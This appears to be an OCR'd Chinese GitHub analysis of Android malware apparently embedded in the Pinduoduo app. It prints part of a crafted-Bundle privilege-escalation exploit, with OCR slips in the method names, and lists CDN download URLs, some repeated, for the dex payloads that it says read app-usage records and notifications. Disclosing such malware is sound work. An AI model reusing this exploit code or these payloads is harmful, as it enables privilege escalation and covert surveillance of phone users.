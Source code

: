  ```
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(-1);
	int dataPosition = obtain2.dataPosition();
	obtain2.writeString("intent");
	obtain2.writeInt(4);
	obtain2.writeString("android.content.Intent");
	obtain2.writeToParcel(obtain3, 0);
	obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
	int dataPosition2 = obtain2.dataPosition();
	obtain2.setDataPosition(dataPosition2 - 4);
	obtain2.writeInit(dataPosition2 -dataPosition);
	obtain2.setdataPosition(dataPosition2);
	int dataSize = obtain2.dataSize();
	obtain.writeInt(dataSize);
	obtain.writeInt(1279544898);
	obtain.appendFrom(obtain2, 0, dataSize);
	obtain.setDataPosition(0);
	bundle.readFromParcel(obtain);
	return bundle;
}
 ```


提权后，就开始瞎搞了，动态下发dex，开始给自己保活，防卸载，然后搞数据，这部分代码比较通俗易懂，
比如：  
1a68d982e02fc22b464693a06f528fac.dex    读取用户手机上的app使用记录  
95cd95ab4d694ad8bdf49f07e3599fb3.dex    读取用户手机的应用通知，这一波各大公司app全灭了吧？  

自己去dex目录看吧。  


  部分dex文件的下载地址（3月3日已被拼多多从CDN服务器上删除）：  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/4a72c6bb-337c-46c4-8c9c-637efafdd1c6.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/61517b68-7c09-4021-9aaa-cdebeb9549f2.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/78afc1cd-60da-482b-90e7-4d5e72a01266.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/f9b6b139-4516-4ac2-896d-8bc3eb1f2d03.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/6932a923-9f13-4624-bfea-1249ddfd5505.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/7c6e6702-e461-4315-8631-eee246aeba95.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/8c34f5dc-f04c-40ba-98d4-7aa7c364b65c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a3937709-b9cc-48fd-8918-163c9cb7c2df.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a4d4dccf-1f8c-48e3-acd5-92cdf156e585.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/e9ded9d4-1c94-47d0-8e8b-94aa773af81c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/4569a29c-b5a8-4dcf-a3a6-0a2f0bfdd493.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/538278f3-9f68-4fce-be10-12635b9640b2.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/75dcc8ea-d0f9-4222-b8dd-2a83444f9cd6.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex  